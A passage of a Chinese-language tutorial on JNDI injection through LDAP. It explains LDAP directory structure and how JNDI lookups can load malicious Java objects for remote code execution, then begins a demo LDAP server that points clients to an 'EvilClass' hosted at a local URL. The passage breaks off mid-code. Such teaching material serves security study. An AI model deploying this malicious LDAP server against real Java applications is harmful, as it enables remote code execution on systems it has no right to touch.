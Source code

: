 ### JNDI+LDAP注入

前面提到过，LDAP（Lightweight Directory Access Protocol ，轻型目录访问协议）是一种目录服务协议，运行在 TCP/IP 堆栈之上，是由目录数据库和一套访问协议所组成的系统。目录服务是一个特殊的数据库，用来保存描述性的、基于属性的详细信息、能够进行查询、浏览和搜索、以树状结构组织数据。LDAP 目录服务基于客户端-服务器模型，主要用于对一个存在目录数据库的访问。

LDAP 协议在不同平台上有着不同版本的实现，在 Windows 平台上有微软的 AD（Active Directory），在 Linux 平台上有OpenLDAP。我们常说的 LDAP Server 一般指的是安装并且配置了这些程序的服务器。

在 LDAP 中，我们通过目录树来访问一条记录，目录树的结构如下所示：
```
dn ：一条记录的详细位置
dc ：一条记录所属区域    (哪一颗树)
ou ：一条记录所属组织    （哪一个分支）
cn/uid：一条记录的名字/ID   (哪一个苹果名字)
...
LDAP目录树的最顶部就是根，也就是所谓的“基准DN"。
```

如果我们需要获取一条记录也就是树上的苹果，需要先知道在那一颗树上（dc），接着需要知道在哪一个分支（ou），最后就是靠苹果的名字（cn/uid）搜索到。

当然，LDAP 与我们本文主题最重要的关系就是它能够存储 Java 对象，如果能够控制 JNDI 访问存储在 LDAP 上的恶意 Java 对象，就能实现 RCE 的目的。以下是  LDAP 能够存储的 Java 对象条件：

- 序列化对象
- JNDI References 对象
- Marshalled 对象
- Remote Location

接下来我们就通过一个简单 demo 完成 JNDI 注入攻击，写在 pom 文件引入 LDAP 的依赖：
```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

恶意类文件`EvilClass`还是继续用前面 RMI 的，LDAP 服务端代码为
```java
package com.jndi.server;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LDAPServer_JNDI {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:6666/#EvilClass"};
        int port = 9999;

        try {
```
